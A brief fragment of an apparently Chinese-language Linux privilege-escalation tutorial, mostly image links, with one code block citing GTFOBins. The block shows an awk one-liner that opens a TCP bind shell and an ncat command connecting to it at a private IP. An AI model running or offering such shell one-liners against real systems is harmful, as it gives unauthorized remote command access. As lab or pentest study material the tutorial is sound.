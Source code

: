 ![](./linux提权_image/22.png)

![](./linux提权_image/23.png)

**2、通过这种方式主动连接 shell**

```
参考链接 https://gtfobins.github.io/gtfobins/awk/

LPORT=12345
awk -v LPORT=$LPORT 'BEGIN {
    s = "/inet/tcp/" LPORT "/0/0";
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
ncat.exe -nv 192.168.1.26 12345
```

![](./linux提权_image/24.png)

![](./linux提权_image/25.png)
